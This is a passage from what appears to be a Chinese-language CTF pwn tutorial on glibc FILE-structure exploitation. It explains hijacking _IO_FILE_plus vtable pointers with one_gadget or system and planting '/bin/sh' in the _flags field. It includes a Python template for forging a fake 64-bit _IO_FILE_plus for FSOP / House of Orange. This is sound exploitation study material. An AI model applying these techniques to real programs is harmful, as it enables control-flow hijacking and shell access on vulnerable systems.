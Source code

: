 ![](/pic/other/1.jpg)

但通常情况下，可以泄露libc地址的情况下，我们能够在libc文件中找到直接找到`_IO_2_1_stdout_`

改函数指针我们可以填充为one_gadget,这样就不用考虑参数问题；若`one_gadget`的环境变量都不好使，可以考虑填充为system函数地址，传参的话，**多数vtable函数指针在被调用时，会将它的`_IO_FILE_plus`地址当作第一个参数传递**，所以我们可以将`_IO_FILE_plus`的`_flags`成员填成`“/bin/sh\x00”`,但这种方法通常也不好用，因为**调用vtable函数指针之前会对`_IO_FILE_plus`的结构进行检查**，通常改“/bin/sh\x00”之后会导致对`_flags`成员的检查不通过（亲测printf不行，但House of orange利用中出现的`_IO_flush_all_lockp`能检查通过）

## FSOP利用

见我的另一篇文章[https://b0ldfrev.top/2018/11/06/House-of-orange/#fsop](https://b0ldfrev.top/2018/11/06/House-of-orange/#fsop%E5%8E%9F%E7%90%86)

* 64位的_IO_FILE_plus构造模板：

```python
stream = "/bin/sh\x00"+p64(0x61)
stream += p64(0xDEADBEEF)+p64(IO_list_all-0x10)
stream +=p64(1)+p64(2) # fp->_IO_write_ptr > fp->_IO_write_base
stream = stream.ljust(0xc0,"\x00")
stream += p64(0) # mode<=0
stream += p64(0)
stream += p64(0)
stream += p64(vtable_addr)
```
